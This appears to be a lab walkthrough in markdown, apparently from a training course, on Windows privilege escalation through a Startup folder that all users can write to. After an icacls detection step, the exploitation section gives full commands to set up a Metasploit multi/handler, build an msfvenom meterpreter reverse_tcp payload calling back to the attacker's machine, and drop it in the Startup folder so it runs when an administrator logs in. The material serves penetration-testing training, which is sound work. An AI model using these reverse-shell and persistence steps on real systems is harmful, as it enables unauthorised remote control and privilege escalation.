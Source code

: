 #Windows #PrivEsc #StartUp #MSFvenom  #msfconsole #meterpreter #metasploit 

[icacls Documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

## **Detection**  

Windows VM

1. Open command prompt and type: `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`  
2. From the output notice that the “`BUILTIN\Users`” group has full access ‘(F)’ to the directory.

## **Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole`  
2. In Metasploit (msf > prompt) type: `use multi/handler`  
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`  
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`  
5. In Metasploit (msf > prompt) type: `run`  
6. Open another command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe` 
7. Copy the generated file, `x.exe`, to the Windows VM.

Windows VM

1. Place `x.exe` in “`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`"
2. Logoff.  
3. Login with the administrator account credentials.

Kali VM

1. Wait for a session to be created, it may take a few seconds.  
2. In Meterpreter(meterpreter > prompt) type: `getuid`  
3. From the output, notice the user is “`TCM-PC\TCM`"  